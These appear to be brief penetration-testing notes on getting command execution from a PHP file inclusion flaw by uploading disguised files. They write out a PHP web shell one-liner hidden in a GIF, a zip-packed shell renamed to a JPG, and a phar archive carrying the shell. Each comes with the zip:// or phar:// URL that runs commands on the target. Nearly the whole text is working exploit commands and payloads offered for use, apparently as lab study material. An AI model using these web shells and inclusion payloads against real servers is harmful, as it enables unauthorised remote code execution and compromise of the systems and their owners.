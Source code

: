 ## Image
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.gif
```
in the html in img src you can see the image page, just navigate there


then just
```
&cmd=id
```
at the end of the url

## Zip 
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
the resulting output is shell.jpg

```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

## Phar
shell.php
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
output file is shell.jpg

then we do this as the url 
```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```